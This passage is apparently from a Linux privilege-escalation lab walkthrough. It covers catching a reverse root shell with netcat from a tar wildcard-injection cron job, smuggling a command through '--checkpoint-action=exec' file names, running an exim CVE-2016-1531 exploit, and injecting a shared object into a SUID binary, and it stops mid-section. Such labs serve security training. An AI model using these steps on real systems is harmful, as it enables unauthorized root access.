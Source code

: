 Set up a netcat listener on your Kali box on port 4444 and wait for the cron job to run (should not take longer than a minute). A root shell should connect back to your netcat listener.

nc -nvlp 4444

Remember to exit out of the root shell and delete all the files you created to prevent the cron job from executing again:

rm /home/user/shell.elf
rm /home/user/--checkpoint=1
rm /home/user/--checkpoint-action=exec=shell.elf

### suid and sgid executables
Find all the SUID/SGID executables on the Debian VM:

find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null

Note that /usr/sbin/exim-4.84-3 appears in the results. Try to find a known exploit for this version of exim. Exploit-DB, Google, and GitHub are good places to search!

A local privilege escalation exploit matching this version of exim exactly should be available. A copy can be found on the Debian VM at /home/user/tools/suid/exim/cve-2016-1531.sh.

Run the exploit script to gain a root shell:

/home/user/tools/suid/exim/cve-2016-1531.sh

### suid and agid executables - shared object injection
The /usr/local/bin/suid-so SUID executable is vulnerable to shared object injection.

First, execute the file and note that currently it displays a progress bar before exiting:

/usr/local/bin/suid-so

Run strace on the file and search the output for open/access calls and for "no such file" errors:

strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"

Note that the executable tries to load the /home/user/.config/libcalc.so shared object within our home directory, but it cannot be found.

Create the .config directory for the libcalc.so file:

mkdir /home/user/.config

Example shared object code can be found at /home/user/tools/suid/libcalc.c. It simply spawns a Bash shell. Compile the code into a shared object at the location the suid-so executable was looking for it:

gcc -shared -fPIC -o /home/user/.config/libcalc.so /home/user/tools/suid/libcalc.c

Execute the suid-so executable again, and note that this time, instead of a progress bar, we get a root shell.

/usr/local/bin/suid-so

### suid ansgid envir variabels
The /usr/local/bin/suid-env executable can be exploited due to it inheriting the user's PATH environment variable and attempting to execute programs without specifying an absolute path.

